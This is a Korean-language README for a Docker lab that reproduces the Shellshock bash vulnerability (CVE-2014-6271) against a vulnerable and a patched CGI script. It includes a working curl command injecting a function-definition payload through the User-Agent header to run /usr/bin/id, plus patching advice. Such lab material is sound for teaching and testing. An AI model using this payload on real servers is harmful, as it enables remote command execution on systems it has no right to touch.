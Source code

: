 # CVE-2014-6271

취약점 설명

CVE-2014-6271은 bash에서 발견된 보안 취약점으로 'Shellshock'라는 이름으로 알려져있다. 이 취약점은 Bash가 환경 변수를 처리하는 과정에서 발생한다. 특히 bash가 함수를 환경 변수로부터 받을 때, 뒤에 따라오는 추가 명령을 실행하는 문제가 있다.

환경 구성 및 실행

```
docker compose build
docker compose up -d
```
위 명령어를 실행하여 테스트 환경을 구축할 수 있다.
이를 통해 두 개의 cgi 스크립트가 호스팅되는 웹 서버 환경을 만든다:

safe.cgi - 최신 Bash를 사용하여 생성된 CGI 스크립트로,  Shellshock 취약점에 안전하다.
victim.cgi - Bash 4.3을 사용하여 생성된 CGI 스크립트로, Shellshock 취약점에 취약하다.

취약점 확인

사용자가 HTTP요청 도구를 사용하여 victim.cgi에 접근할 때 User-Agent부분에 취약점을 이용하여 명령어를 포함시킨 요청을 보낸다.
이 요청이 실행될 경우 취약점이 있는 bash를 사용하는 서버에서 명령어가 실행된다.
반면 safe.cgi는 패치가 진행된 bash를 사용하여 동일한 요청에도 영향을 받지 않는 것을 확인할 수 있다.

아래 명령어를 통해 이를 확인할 수 있다.

1. 취약한 bash의 경우
```
curl -v http://your_ip_address:8080/victim.cgi -H "User-Agent: () { foo; }; echo; echo; /usr/bin/id" --output response.txt
cat response.txt
```
아래와 같이 '/usr/bin/id' 명령이 실행된 것을 확인할 수 있다.
![](victim_result.png)

2. 안전한 bash의 경우
```
curl -v http://your_ip_address:8080/safe.cgi -H "User-Agent: () { foo; }; echo; echo; /usr/bin/id" --output response.txt
cat response.txt
```
아래와 같이 '/usr/bin/id' 명령이 실행되지 않는 것을 확인할 수 있다.
![](safe_result.png)

정리

이 취약점은 공격자가 원하는 코드를 원격으로 실행할 수 있도록 하여, 취약한 시스템에 대한 제어가 가능하게 한다. bash를 사용하는 시스템이 매우 많아 이 취약점은 광범위한 영향을 끼쳤다. 
이러한 취약점에 대응하기 위해 bash의 버전을 업데이트 하여 사용하여야 하고, 취약한 bash를 사용하는 시스템들을 점검하여야 한다.
